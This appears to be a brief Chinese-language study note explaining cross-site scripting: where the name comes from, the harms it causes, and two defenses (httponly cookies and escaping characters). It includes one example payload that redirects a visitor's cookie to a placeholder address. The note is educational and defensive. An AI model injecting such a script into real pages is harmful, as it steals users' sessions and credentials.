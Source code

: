 # XSS

其实它原本的缩写应该是CSS但是因为有了CSS所以给它改名为XSS XSS全名是跨站脚本攻击 Cross-Site Scripting, XSS
将代码注入到用户浏览的网页上

简单的来说就是假设没有对用户发送的东西进行筛选，并且没有转义JS代码，就会出现例如 用户发送了一个`<script> location.href='xxx'+document.cookie</script>` 那么另一个用户在点击这个链接的时候就把自己的cookie发给了这个网址。

以下危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

## 如何防范?

- cookie 设置 httponly
- 过滤敏感字符 <script>, html 等 将这些字符进行转义
